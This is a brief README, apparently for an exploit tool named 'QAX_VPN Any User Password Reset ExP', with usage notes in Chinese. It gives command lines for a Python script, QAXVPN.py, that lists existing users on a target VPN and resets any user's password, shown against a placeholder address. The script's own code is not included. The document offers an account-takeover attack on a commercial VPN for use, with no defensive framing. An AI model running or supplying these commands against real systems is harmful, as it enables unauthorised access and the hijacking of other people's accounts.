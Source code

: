 # QAX_VPN Any User Password Reset ExP


   ### 使用方法
* ##### 遍历当前存在用户</br>
      python QAXVPN.py -t https://1.1.1.1 -lu
* ##### 修改任意用户密码</br>
      python QAXVPN.py -t https://1.1.1.1 -u user1 -cp

